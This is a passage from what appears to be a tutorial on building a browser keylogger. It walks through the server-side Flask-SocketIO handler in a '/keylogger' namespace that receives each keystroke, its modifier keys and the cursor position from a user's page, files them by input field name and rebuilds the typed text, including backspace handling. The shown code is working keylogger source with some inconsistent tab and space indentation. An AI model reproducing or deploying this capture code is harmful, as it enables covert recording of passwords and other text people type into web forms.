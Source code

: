{% highlight python %}

@socketio.on('keydown', namespace='/keylogger')
def keydown(message):

    keystroke = message['data']['ks']
    ctrl_pressed = message['data']['ctrl']
    alt_pressed = message['data']['alt']
    shift_pressed = message['data']['shift']
    selection_start = message['data']['start_pos']
    selection_end = message['data']['end_pos']
	name = message['data']['name']

{% endhighlight %}
	
We use the input tag's name attribute to identify what field the user is typing into. There are far more accurate and reliable ways of doing this. However, we avoid using them for the sake of keeping this tutorial straightforward. We first check to see if the name is already in our __input_tags__ dictionary. If it is not, then we add a new entry to the dictionary such that the name of the input tag maps to an empty list. This list will later contain the contents of the input field the user is typing into. We then set a variable 'contents' to point to the list mapped to by the name attribute. When 'contents' is modified, input_tags[name] will be modified as well.

{% highlight python %}

	if name not in input_tags:
		input_tags[name] = []
	contents = input_tags[name]

{% endhighlight %}
	
We then check to see if either the control or alt keys have been pressed, or if the key does not correspond to a printable character. If any of these conditions are true, then keydown returns immediately, as the keystroke does not correspond to text input from the user.

{% highlight python %}

    if ctrl_pressed or alt_pressed or not tables.is_printable(keystroke):
        return

{% endhighlight %}

The keystroke is then mapped to a preliminary character using our keyboard lookup table. We say the character is preliminary because its value may need to be changed if the shift key has been pressed.

{% highlight python %}

    keystroke = tables.keyboard[keystroke]

{% endhighlight %}

We then check to see if the preliminary character is a backspace. If the character is a backspace, we either delete any text the user has highlighted or delete the character immediately preceding the user's cursor.

{% highlight python %}

    if keystroke == 'BACK_SPACE':

        if selection_start == selection_end and selection_start != 0:
            contents.pop(selection_start-1)
        else:
            del contents[selection_start:selection_end]

{% endhighlight %}

